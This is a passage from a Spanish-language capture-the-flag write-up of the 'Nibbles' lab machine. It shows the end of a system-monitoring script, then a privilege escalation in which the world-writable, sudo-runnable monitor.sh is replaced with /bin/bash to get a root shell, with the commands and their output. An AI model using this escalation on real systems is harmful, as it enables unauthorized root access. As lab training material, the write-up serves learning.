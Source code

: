 ```
nameservers=$(cat /etc/resolv.conf | sed '1 d' | awk '{print $2}')
echo -e '\E[32m'"Name Servers :" $tecreset $nameservers 

# Check Logged In Users
who>/tmp/who
echo -e '\E[32m'"Logged In users :" $tecreset && cat /tmp/who 

# Check RAM and SWAP Usages
free -h | grep -v + > /tmp/ramcache
echo -e '\E[32m'"Ram Usages :" $tecreset
cat /tmp/ramcache | grep -v "Swap"
echo -e '\E[32m'"Swap Usages :" $tecreset
cat /tmp/ramcache | grep -v "Mem"

# Check Disk Usages
df -h| grep 'Filesystem\|/dev/sda*' > /tmp/diskusage
echo -e '\E[32m'"Disk Usages :" $tecreset 
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```

Al `listar` los `privilegios` de este archivo nos damos cuenta de que podemos `modificarlo`

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Vamos a `copiarnos` el `binario` de la `bash` en este `directorio` y a `renombrarlo` a `monitor.sh`

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ which bash
/bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cp /bin/bash .
nibbler@Nibbles:/home/nibbler/personal/stuff$ rm monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ mv bash monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 1016
-rwxr-xr-x 1 nibbler nibbler 1037528 Jul  6 09:42 monitor.sh
```

Al `ejecutar` la `bash` con `sudo` obtenemos una bash como usuario `root`

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```
